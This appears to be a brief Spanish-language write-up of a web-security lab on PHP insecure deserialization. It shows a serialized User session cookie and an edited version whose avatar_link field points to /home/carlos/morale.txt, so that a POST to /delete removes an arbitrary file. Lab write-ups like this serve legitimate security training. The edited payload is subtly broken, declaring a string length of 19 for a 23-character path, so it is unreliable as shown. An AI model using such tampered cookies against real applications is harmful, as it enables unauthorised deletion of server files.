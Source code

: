 ```yaml
---
layout: default
title: 3 - Using application functionality to exploit insecure deserialization
---
```


```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"gr1tvt24g7lxaa9o99ch3h6db2qwd5ks";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

Simplemente hacemos un POST a /delete cambiando la cookie por : 

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"gr1tvt24g7lxaa9o99ch3h6db2qwd5ks";s:11:"avatar_link";s:19:"/home/carlos/morale.txt";}
```
